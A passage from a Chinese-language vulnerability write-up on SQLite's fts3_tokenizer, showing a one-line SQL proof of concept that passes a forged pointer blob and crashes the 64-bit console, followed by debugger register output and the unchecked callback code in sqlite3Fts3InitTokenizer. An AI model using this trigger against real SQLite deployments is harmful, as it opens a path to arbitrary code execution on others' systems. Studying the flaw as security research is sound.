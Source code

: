 ### 任意代码执行

现在来尝试触发 xCreate 回调执行任意代码。运行 64 位的 SQLite3 控制台，输入如下查询即可导致段错误：

```
➜  ~  sqlite3
SQLite version 3.8.10.2 2015-05-20 18:17:19
Enter ".help" for usage hints.
Connected to a transient in-memory database.
Use ".open FILENAME" to reopen on a persistent database.
sqlite> select fts3_tokenizer('simple', x'4141414141414141'); create virtual table a using fts3;
AAAAAAAA
[1]    30877 segmentation fault  sqlite3
```

用调试器查看崩溃的上下文：

```
[----------------------------------registers-----------------------------------]
RAX: 0x4141414141414141 (b'AAAAAAAA')
RBX: 0x0 
RCX: 0x0 
RDX: 0x7fffffffc620 --> 0x0 
RSI: 0x0 
RDI: 0x0 
RBP: 0x0 
RSP: 0x7fffffffc4e0 --> 0x3 
RIP: 0x7ffff7bab71c (call   QWORD PTR [rax+0x8])
R8 : 0x55555579b968 --> 0x656c706d6973 (b'simple')
R9 : 0x0 
R10: 0x0 
R11: 0x1 
R12: 0x0 
R13: 0x8 
R14: 0x7fffffffc514 --> 0x2e1ef00000000006 
R15: 0x555555799f78 --> 0x7ffff7bb39e4 --> 0x746e65746e6f63 (b'content')
[-------------------------------------code-------------------------------------]
   0x7ffff7bab712:  mov    edi,ebx
   0x7ffff7bab714:  mov    rdx,QWORD PTR [rsp+0x10]
   0x7ffff7bab719:  mov    rsi,r12
=> 0x7ffff7bab71c:  call   QWORD PTR [rax+0x8]
   0x7ffff7bab71f:  test   eax,eax
   0x7ffff7bab721:  mov    ebx,eax
   0x7ffff7bab723:  jne    0x7ffff7bab790
   0x7ffff7bab725:  mov    rax,QWORD PTR [rsp+0x10]

```

rax 即为 fts3_tokenizer 第二个 blob 参数通过 cast 直接转换成的指针，SQLite 完全没有对指针做任何有效性检查，直接进行了回调的调用。其对应源代码位于 ext/fts3/fts3_tokenizer.c 的 `sqlite3Fts3InitTokenizer` 函数：

```c
  m = (sqlite3_tokenizer_module *)sqlite3Fts3HashFind(pHash,z,(int)strlen(z)+1);
  if( !m ){
    sqlite3Fts3ErrMsg(pzErr, "unknown tokenizer: %s", z);
    rc = SQLITE_ERROR;
  }else{
    char const **aArg = 0;
    ... （省略部分代码）
    rc = m->xCreate(iArg, aArg, ppTok);
    assert( rc!=SQLITE_OK || *ppTok );
    if( rc!=SQLITE_OK ){
      sqlite3Fts3ErrMsg(pzErr, "unknown tokenizer");
    }else{
```
